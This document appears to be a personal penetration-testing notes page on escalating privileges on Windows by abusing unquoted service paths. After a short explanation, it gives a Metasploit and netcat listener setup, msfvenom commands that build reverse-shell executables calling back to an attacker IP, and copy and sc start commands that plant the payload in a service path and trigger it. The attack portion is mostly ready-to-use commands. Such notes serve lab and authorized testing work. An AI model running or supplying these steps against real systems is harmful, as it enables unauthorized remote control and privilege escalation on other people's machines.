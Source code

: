 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Unquoted Service Paths|Enum]]
As it sounds, you know what this is. The service has a path that includes a space (and isn't inside quotation marks!) in it so you just make sure to have control of (or make your own) directory of the first word before the space, then put your malware in that directory so that when the service goes to run, it picks up your malware thinking it found the right program and stops looking for the actual program.

For example, if the path is `C:\Program Files\service.exe`, you put your malware in `C:\program.exe`, and that gets picked up before the first path. 
#### Setup listener
```bash
# meterpreter
msfconsole
use multi/handler
set lhost=<attack ip>
set lport=<port>
run

# reverse shell
nc -nvlp <port>
```
#### Payload
Or go to [Rev Shell Gen](https://revshell.xehn.lol)
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe

msfvenom -p windows/x64/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe
```
#### Exploit
[[Windows|File transfer]] payload to target machine
```powershell
# in this example, the unquoted service path is
# C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
# so we will place the payload as:
# C:\Program Files\Unquoted Path Service\common.exe
copy common.exe "C:\Program Files\Unquoted Path Service\common.exe"

# now start/restart the service
sc start <service> 
sc start unquotedpathsvc

# and you should now have a shell
```